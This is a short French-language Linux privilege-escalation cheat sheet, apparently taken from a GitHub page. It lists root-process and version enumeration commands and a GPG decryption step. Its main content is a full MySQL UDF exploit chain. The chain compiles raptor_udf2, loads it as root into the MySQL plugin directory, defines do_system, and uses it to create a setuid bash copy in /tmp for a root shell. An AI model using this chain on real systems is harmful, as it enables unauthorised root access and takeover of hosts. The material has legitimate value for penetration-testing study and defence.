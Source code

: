 
**Enumeration Service running as root**

```sh
ps aux | grep "^root"
```

**Enumeration Program versions**

```sh
<program> --verson
<program> -v
```

```sh
dpkg -l | grep <program>
rpm -qa | grep <program>
```


**MySQL**
Le service MySQL s'exécute en tant que root et l'utilisateur « root » du service n'a pas de mot de passe attribué.

Nous pouvons utiliser un [exploit populaire](https://www.exploit-db.com/exploits/1518) qui tire parti des fonctions définies par l'utilisateur (UDF) pour exécuter des commandes système en tant que root via le service MySQL.

```sh
gcc -g -c raptor_udf2.c -fPIC  
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```

```sh
mysql -u root
```

```sql
use mysql;  
create table foo(line blob);  
insert into foo values(load_file('/[FULL_PATH]/raptor_udf2.so'));  
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';  
create function do_system returns integer soname 'raptor_udf2.so';
```

```sh
select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
```

```sh
exit
```

```sh
/tmp/rootbash -p
```

**Casser une cle GPG**

```sh
gpg --import key.asc [.key]
gpg --decrypt key.pgp [.gpg]
```
